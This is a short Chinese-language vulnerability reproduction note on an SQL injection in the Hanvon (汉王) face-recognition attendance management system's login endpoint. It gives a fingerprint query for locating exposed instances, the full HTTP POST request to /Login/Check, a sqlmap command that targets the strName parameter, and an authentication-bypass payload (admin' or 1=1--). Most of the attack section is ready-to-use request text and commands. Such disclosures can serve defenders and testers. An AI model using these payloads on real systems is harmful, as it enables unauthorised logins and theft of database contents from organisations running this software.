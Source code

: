 # 汉王人脸考勤管理系统 Check SQL注入漏洞

# 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

```
汉王人脸考勤管理系统
```

## 网络测绘

```
title=""汉王人脸考勤管理系统""
```

## 漏洞复现



登录界面如下



![](/images/202202101908168.png)



请求包如下



```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```



其中strName参数存在注入



```shell
sqlmap -r postwang.txt -p strName  --current-user
```



![](/images/202202101908817.png)



```plain
user: admin' or 1=1--
pass: admin
```



万能密码绕过登录



![](/images/202202101908955.png)

## 

